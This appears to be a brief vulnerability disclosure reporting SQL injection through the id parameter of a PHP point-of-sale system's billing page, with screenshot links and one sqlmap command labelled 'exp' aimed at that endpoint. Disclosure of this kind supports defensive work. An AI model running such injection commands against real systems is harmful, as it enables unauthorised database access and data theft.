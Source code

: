 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html

Vulnerability trigger parameter: $id

The process of vulnerability discovery is as follows：

![image-20230223215721857](C:\markdown\images\image-20230223215721857.png)

exp

```
sqlmap.py -u "http://192.168.31.50/kruxton/billing/home.php?id=1"
```

![image-20230223215644678](C:\markdown\images\image-20230223215644678.png)